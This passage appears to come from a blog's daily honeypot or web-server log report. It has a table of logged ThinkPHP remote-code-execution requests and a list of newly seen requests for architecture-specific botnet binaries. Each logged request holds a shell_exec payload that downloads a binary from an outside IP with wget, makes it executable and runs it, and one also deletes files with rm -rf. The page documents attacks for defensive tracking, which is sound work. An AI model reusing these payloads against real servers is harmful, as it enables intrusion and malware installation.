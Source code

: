 | 101.69.248.251  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                                                                                                                        |
| 61.10.103.203   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://193.239.147.201/bins/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1                                                                                                            |
| 180.153.27.22   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                                                                                                                        |
| 121.22.35.6     | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                                                                                                                        |
| 58.242.106.187  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                                                                                                                        |

## request

List of requests of the day that have never been detected, other requests that have already been detected and archived in the [request database.](https://blog.shoggoth.industries/database/request_database/).

|     |   number_of_occurence | request                                                    |
|----:|----------------------:|:-----------------------------------------------------------|
| 192 |                     5 | GET /l7vmra HTTP/1.1                                       |
| 220 |                     5 | GET /hmips HTTP/1.1                                        |
| 222 |                     5 | GET /s/arm6 HTTP/1.1                                       |
| 225 |                     5 | GET /s/arm7 HTTP/1.1                                       |
| 240 |                     4 | GET /bins/dlr.arm HTTP/1.1                                 |
| 241 |                     4 | GET /nshkarm HTTP/1.1                                      |
| 298 |                     3 | GET /nshmips HTTP/1.1                                      |
| 299 |                     3 | GET /nsharm5 HTTP/1.1                                      |
| 300 |                     3 | GET /nshkppc HTTP/1.1                                      |
| 301 |                     3 | GET /nsharm7 HTTP/1.1                                      |
| 303 |                     3 | GET /nsharm HTTP/1.1                                       |
| 304 |                     3 | GET /nshkx86 HTTP/1.1                                      |
| 305 |                     3 | GET /nshmpsl HTTP/1.1                                      |
| 306 |                     3 | GET /nshsh4 HTTP/1.1                                       |
| 335 |                     3 | GET /s/mipsel HTTP/1.1                                     |
| 336 |                     3 | GET /s/arm5 HTTP/1.1                                       |
| 337 |                     3 | GET /x0ox0ox0oxDefault/z0r0.spc HTTP/1.1                   |
| 338 |                     3 | GET /x0ox0ox0oxDefault/z0r0.i686 HTTP/1.1                  |
| 344 |                     3 | GET /bins/k86m HTTP/1.1                                    |
| 347 |                     3 | GET /bins/dlr.spc HTTP/1.1                                 |
| 348 |                     3 | GET /bins/dlr.arm7 HTTP/1.1                                |
| 349 |                     3 | GET /bins/dlr.arm6 HTTP/1.1                                |
| 350 |                     3 | GET /bins/dlr.arm5 HTTP/1.1                                |
| 351 |                     3 | GET /bins/dlr.ppc HTTP/1.1                                 |
| 352 |                     3 | GET /nshkmpsl HTTP/1.1                                     |
| 353 |                     3 | GET /nshkmips HTTP/1.1                                     |
| 354 |                     3 | GET /nshkarm7 HTTP/1.1                                     |